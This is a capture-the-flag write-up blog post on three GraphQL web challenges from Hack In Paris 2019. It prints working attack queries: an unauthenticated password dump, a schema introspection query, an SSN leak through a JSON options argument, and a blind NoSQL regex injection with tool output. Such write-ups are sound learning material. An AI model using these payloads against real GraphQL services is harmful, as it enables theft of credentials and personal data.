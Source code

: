 ```yaml
---
layout: post
title: HIP19 Writeup - Meet Your Doctor 1,2,3
---
```


Last wednesday I was in the Hack In Paris event for the 3rd time. As always there were some great conferences and challenges, and a new competition called "Hacker Jeopardy" which was very fun! During the Wargame I focused my time on Web challenges based on the `graphql` technology which was new to me, you will find below my writeups for the `Meet Your Doctor` challenges. 

<!--more-->

![HIP Wargame 2019]({{ site.baseurl }}/images/hip19_wargame.png "HIP Wargame 2019"){: .center-image }


## Meet your doctor 1 - 100 pts

URL: `http://meetyourdoctor1.challs.malice.fr`   
Goal : `Please help me find the Meet your doctor Admin password`   

Gobuster revealed a `/graphql` endpoint at the root of the website, browsing [http://meetyourdoctor1.challs.malice.fr/graphql](http://meetyourdoctor1.challs.malice.fr/graphql) gave us an access to an interactive GraphQL interpreter. On this page we can browse the documentation and `schema`. 

There, we can get the structure of the `Doctor` type.

{% highlight sql %}
type Doctor {
  id: ID!
  firstName: String!
  lastName: String!
  specialty: String!
  patients: [Patient!]
  rendezvous: [Rendezvous!]
  email: String!
  password: String!
}
{% endhighlight %}

It seems we don't need to authenticate with the mutation `signIn` to query `Doctor` data.

{% highlight sql %}
type Mutation {
  signIn(login: String!, password: String!): Token!
}
{% endhighlight %}

A simple query `{Doctors{id email password}}` was enough to extract all doctors' email and password. The flag was the password of the Admin doctor : `Now-_Let$|GetSeri0us`

![GraphQL UI]({{ site.baseurl }}/images/doctors1graphql.png "GraphQL UI")


## Meet your doctor 2 - 200 pts

URL: `http://meetyourdoctor2.challs.malice.fr`    
Goal: `I need to find the Patient 0 social security number! It is a matter of life and death`

In this challenge we didn't have access to an online "lab" to test and query the GraphQL. I made a tool to interact with the `/graphql` endpoint, it is open-source and available for free on [Github: https://github.com/swisskyrepo/GraphQLmap](https://github.com/swisskyrepo/GraphQLmap).

Using `Introspection` we can still get the GraphQL schema, here is the URL-encoded version (Full version available at "[GraphQL Injection: enumerate-database-schema-via-introspection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection)").

{% highlight sql %}
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
{% endhighlight %}

It is strongly recommended to use `Firefox` to view the server response as it parses JSON an displays it nicely.

![Doctors schema]({{ site.baseurl }}/images/doctors2_schema.png "Doctors schema")

Using GraphQLmap, we got the following structure.

{% highlight sql %}
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)

Query
        doctor[]: email (String!), 
        doctors[Doctor]: options (JSON!), 
        patients[Patient]: 
        patient[]: id (ID!), 
        allrendezvous[Rendezvous]: 
        rendezvous[]: id (ID!), 
Doctor
        id[ID]: 
        firstName[String]: 
        lastName[String]: 
        specialty[String]: 
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
Patient
        id[ID]: 
        firstName[String]: 
        lastName[String]: 
        doctor[Doctor]: 
        ssn[String]: 
Rendezvous
        id[ID]: 
        date[String]: 
        confirmed[Boolean]: 
Mutation
        signIn[Token]: login (String!), password (String!), 
Token
        token[String]: 
{% endhighlight %}

In this case `Doctors` have an `options` parameter which accepts JSON. It allows us to specify items linked to the doctors' structure and project their data into the GraphQL response. I saw the following picture in a blog post, it helped me a lot to understand the structure of the query.

![GraphMap]({{ site.baseurl }}/images/graphmap.png "GraphMap")

We can query `{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}`, don't forget to escape the `"` inside the `options`.

{% highlight json %}
GraphQLmap> {doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
{
    "firstName": "Admin",
    "id": "5d089b25f48c29003191e3b5",
    "lastName": "Admin",
    "patients": [
        {
            "ssn": "b16cff8b-4a5a-41c8-8545-d9880fd7aae5"
        }
    ]
} 
{% endhighlight %}

There we go, the second flag was `b16cff8b-4a5a-41c8-8545-d9880fd7aae5`.     
An asciinema version is available at [https://asciinema.org/a/sbqGXnWXl5Y6YeQr0wzsCzQli](https://asciinema.org/a/sbqGXnWXl5Y6YeQr0wzsCzQli)


## Meet your doctor 3 - 300 pts

URL: `http://meetyourdoctor3.challs.malice.fr`    
Goal: `I need to find the Patient 0 social security number! It is a matter of life and death`

Things are getting complicated, we can't dump the schema as the `Introspection` is set to false. Based on the previous challenge we can guess the structure is the same. Unfortunately we can't reuse the same query to extract the `ssn`, we get the following error.

{% highlight bash %}
Field "doctors" argument "search" of type "JSON!" is required, but it was not provided.
{% endhighlight %}

This means there is a `search` argument in the doctor structure, something like `doctors[Doctor]: options (JSON!), search(JSON!)`.    
Pete Correy explains how to exploit the search argument in his blog post [GraphQL NoSQL Injection Through JSON Types](http://www.petecorey.com/blog/2017/06/12/graphql-nosql-injection-through-json-types/).

Let's try a simple NoSQL injection with fields we know such as `lastName`.

{% highlight json %}
OK: {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi\"} }"){firstName lastName id}}
KO: {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admia\"} }"){firstName lastName id}}
{% endhighlight %}

Since the challenge I added a way to test the regex quickly in GraphQLmap using the `GRAPHQL_CHARSET` keyword inside a GraphQL query:

{% highlight json %}
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}     
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}    
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}    
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{% endhighlight %}

The injection worked, now we can re-use the payload from the challenge #2 and extract the `social security number` of the patient 0, which is the patient of the `Admin` doctor. The query was as follows, where we had to replace `CHARACTER_FROM_THE_FLAG` to test characters from the flag.

{% highlight json %}
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \"^CHARACTER_FROM_THE_FLAG\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
{% endhighlight %}

Obviously we scripted the data extraction in Python, the script below will get the last flag : `4f537c0a-7da6-4acc-81e1-8c33c02ef3b`.

![NOSQL]({{ site.baseurl }}/images/doctors3_nosql.png "NOSQL")

At that time we were checking if the content of `r.json()['data']['doctors']` was not empty, in order to abstract the data extraction we now take a check input from the user in order to compare the output.


{% highlight json %}
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
{% endhighlight %}

I hope you enjoyed the challenges as I did !     
Feel free to share the blog post ! :)
